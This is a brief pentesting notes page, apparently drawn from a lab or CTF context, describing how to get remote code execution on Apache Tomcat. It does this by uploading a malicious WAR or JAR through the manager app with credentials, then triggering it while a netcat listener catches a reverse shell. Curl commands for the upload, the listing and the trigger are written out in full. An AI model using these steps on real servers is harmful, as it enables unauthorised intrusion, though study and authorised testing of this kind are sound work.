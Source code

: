 ```yaml
---
layout: post
title: Uploading malicuous JAR or WAR file
description: Uploading malicuous JAR or WAR file
summary: Uploading malicuous JAR or WAR file
tags: [devops,tomcat,java,rce,foothold]
minute: 2
---
```

# Overview
Attacker can deploy malicuous JAR or WAR file to gain RCE.

# Versions Tested
* Tomcat 9.0.31
* Tomcat 7.0.88 (Microsoft Windows Server 2012 R2 Standard)

# Steps - CLI
* Generate war file. See tomcat part on [[Reverse Shell and Web Shells]]
* Upload

```bash
curl -u 'webdev:password123' --upload-file evil.war 'http://10.10.163.51:8080/manager/text/deploy?path=/evil.war'
```

* Verify

```bash
curl -u 'webdev:password123' 'http://10.10.163.51:8080/manager/text/list'
```

* Open netcat listener on attacker machine
* Execute

```bash
curl -u 'webdev:password123' http://10.10.163.51:8080/evil.war
```

# Steps - GUI
* Ensure you have access to host manager app
* Create JAR file. See [[Reverse Shell and Web Shells]]
* Upload it via manager app and deploy

![](/spindel/assets/Uploading%20malicuous%20JAR%20or%20WAR%20file/B3786FC8-1BE8-49F3-8D7C-D7D5577D73D9.png)

* Open netcat listener
* Access the servlet and enjoy

```
curl -u 'bob:bubbles' http://thm:1234/evil
```

# Alernatives
* You can also upload [jsp](https://www.youtube.com/watch?v=yTHtLi9YZ2s&t=1050s) file instead of war file

![](/spindel/assets/Uploading%20malicuous%20JAR%20or%20WAR%20file/3D882918-7ECC-4D4C-8D20-0FEDF14E4C45.png)

* [Tomcat deployer](https://github.com/mgeeky/tomcatWarDeployer)
* [HTB jerry](https://www.youtube.com/watch?v=PJeBIey8gc4&t=1362s) - uploading cmd.jsp